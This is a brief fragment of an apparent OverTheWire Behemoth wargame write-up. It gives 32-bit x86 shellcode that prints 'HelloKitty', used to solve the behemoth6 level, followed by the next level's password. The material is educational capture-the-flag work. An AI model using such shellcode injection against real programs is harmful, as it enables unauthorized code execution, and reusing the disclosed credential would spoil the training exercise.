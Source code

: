 Write a shell code that prints "HelloKitty" to shellcode.txt and run ./behemoth6

```asm
BITS 32

call shellcode
db "HelloKitty"

shellcode:
    pop ecx
    mov eax, 4
    mov ebx, 1
    mov edx, 10
    int 0x80

    mov eax, 1
    mov ebx, 0
    int 0x80
```

behemoth7:baquoxuafo
